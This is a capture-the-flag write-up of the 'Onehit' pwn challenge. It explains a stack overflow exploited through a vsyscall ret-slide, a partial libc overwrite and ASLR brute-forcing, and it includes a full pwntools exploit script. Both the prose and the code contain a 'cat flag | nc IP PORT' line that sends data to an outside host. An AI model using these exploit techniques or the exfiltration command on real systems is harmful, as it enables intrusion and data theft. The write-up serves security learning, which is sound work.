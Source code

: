 # Write up for "Onehit" challenge - pwn 03 

## Skimming through to find the bug!

So, first thing we did was to open up the binary in IDA, we quickly noticed that there a function called `Echo()` that calls `read()` with an un-initialized value as the `count` (amount of bytes to read).

This leads to a stack-based buffer overflow!

## Stack Overflow --> Code Execution ?

So, after finding the bug, we also noticed there were **no** leaks whatsoever. After getting stuck for a while, we remembered a trick that used `vsyscall` for gadgets!

For those of you who don't know, `vsyscall` is always mapped to the same address. 

The binary was running a "custom" libc, that had an additional gadget that basically did:

```
add rdi, 127
jmp system
```

At the moment that we control the return-address, `rdi` points to somewhere inside our input. It is important to state that **before** we overwrite the return address, there is a call to `strcpy()` which "trashes" the value of rdi with a NULL terminated string -- this prevented us from just simply jumping to a `system()` gadget that was already present in the binary.

After we had control over the argument to `system()`, because `stdin` and `stdout` were both closed, we just executed the following command to get the flag:
`cat flag | nc IP PORT` (where IP and PORT are the IP of our server, and the port we were listening to).

## The vsyscall trick

So, you must be wondering "What vsyscall trick is he talking about...?" -- So there it is!

As the libc was patched, and added an extra, super-useful gadget, we **had** to use that gadget in order to get a shell.

After debugging a bit, we ntoiced that in offset 30 QWORDs (30 * 8 bytes) from the return address (including the return-address), there was a libc address in the stack.

Using the fact that `vsyscall` is **always** mapped to the same address, we can use some of it's gadgets!

We can't just jump into a middle of a vsyscall, so we have to perform a "whole" vsyscall, but the general idea is to use the `ret` instruction of a `vsyscall` to just "slide through" the stack until we reach a libc-address, and then we **only partiall overwrite it**.

This is the `vsyscall` gadget we decided to use:

```
   0xffffffffff600400:    mov    rax,0xc9
   0xffffffffff600407:    syscall
   0xffffffffff600409:    ret
```

## Breaking ASLR ?

Even though we have bypassed *most* of the ASLR randomization, there are still 12 bits that we don't know for sure after overwriting the 3 least significant nibbles (12 least significant bits) of the libc address -- the way we bypassed ASLR is by relying on a statistical factor, we ran the exploit for quite some time until we landed with a "good" ASLR base guess.


## Finalizing the exploit

So, to sum things up we have the following points to finish up our exploit:

1. Overwrite the stack from the return address (including) with 30 QWORDs that hold the address `0xffffffffff600400`, this will allow us to "slide" through the stack until we reach a libc address.

2. Make sure that when we start jumping to the `vsyscall` "slide", `rdi+127` holds the string `"cat flag | nc IP PORT"` (this is easily done because `rdi+127` is controlled by us!).

3. Once we read the libc address, overwrite it partially with 3 bytes - these 3 bytes will be the 3 least significant bytes of the "patched-in" gadgets, which will finally execute: `system(rdi+127)` which is `system("/bin/sh")`.

4. Profit!

## Exploit Code

*Note: this exploit works with a statistical factor*

The flag was: `WhiteHat{6c6edbd044176a913a1ed34661a37e836848f066}`

```Python
import hashlib
import os
import time

def solve(pre, sice):
    for i in range(0x100000):
        if hashlib.sha512( pre + str(i)).hexdigest().startswith(sice):
            return i
    return -1

from pwn import *

proc = remote("pwn03.grandprix.whitehatvn.com", 2023)

proc.recvuntil("sha512(\"")
pre = proc.recvuntil('"').strip('"')
proc.recvuntil("0x")
pow_chall = proc.recvuntil("...").strip("...").strip("0x")
solution = solve(pre, pow_chall)
proc.recvuntil(" =")
proc.sendline(str(solution) + "\x00" + "A"*(77-len(str(solution))-1))

proc.recvuntil("al?")
proc.send("N0")

proc.recvuntil("/sh")
proc.sendline("1")

# an address that exists: 0x7ffff7a05b97 an address we need 0x7ffff7a3343e
vsyscall = p64(0xffffffffff600400)
count = 30

send_flag = 'cat flag | nc IP PORT\x00' # we censored our IP and PORT

leftover = (232-143-len(send_flag))
proc.send(cyclic(143) +send_flag+ 'A'*leftover+vsyscall*count + '\x3a\x34\xa3') # RIP control :P
proc.interactive()
```
